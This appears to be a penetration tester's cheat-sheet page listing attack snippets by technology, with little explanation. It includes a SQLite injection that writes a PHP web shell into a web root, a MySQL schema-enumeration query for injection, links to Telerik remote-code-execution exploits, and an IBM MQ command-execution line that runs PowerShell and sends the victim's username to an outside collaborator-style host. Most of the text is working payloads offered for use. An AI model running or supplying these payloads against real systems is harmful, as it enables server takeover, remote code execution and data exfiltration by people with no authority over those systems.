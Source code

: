 Command execution:  
```sql
ATTACH DATABASE '/var/www/html/y.php' AS y;--
CREATE TABLE y.p (dataz text);--
INSERT INTO y.p (dataz) VALUES ('<? system($_GET[''cmd'']);?>');--
```  
#### Alternatives to information_schema table (MySQL)
```sql
SELECT * FROM sys.x$schema_flattened_keys;
```
Blind SQL Injection without _in_:  
https://medium.com/@terjanq/blind-sql-injection-without-an-in-1e14ba1d4952  
### PHP
### finfo with specific comment
```php
// After Upload:
echo (new finfo)->file($_FILES["fileToUpload"]["tmp_name"]);
//Rendered:
JPEG image data, JFIF standard 1.02, aspect ratio, density 1x1, segment length 16, comment: "AAAAAAAAAAAAAAAAAA"
/*
Uploaded file:
$ cat test1234.txt | base64
/9j/4AAQSkZJRgABAgAAAQABAAD//kFBQUFBQUFBQUFBQUFBQUFBQUFB
*/
```
### ASP.NET
 - RCE Telerik https://know.bishopfox.com/research/cve-2019-18935-remote-code-execution-in-telerik-ui?utm_campaign=190101_Posts_Blog&utm_source=Caleb%20-%20Github
 - https://github.com/noperator/CVE-2019-18935
 - https://github.com/Illuminopi/RCEvil.NET/    

### PDF  
 - https://gist.github.com/ast3ro/ca6eec74293be5992f35b18023b420a4
 - https://cure53.de/pentest-report_accessmyinfo.pdf

## Infrastructure
### MQ
```punch-q --config ../../../config.yml command execute --cmd "cmd.exe" --args '/c "powershell.exe $i=whoami; Invoke-WebRequest -uri http://kdjsfhkjsdhfjsd.burcpollaborator.xyz/$i"'```

## Network  
### Lookup and display the route for a destination  
```
route get 192.168.13.14
```

## /dev/null
### nc permanent 'web-server'
```sh
while true; do 
  echo -e "HTTP/1.1 200 OK\n\n $(date)" | nc -l -p 1500 -q 1
done
```

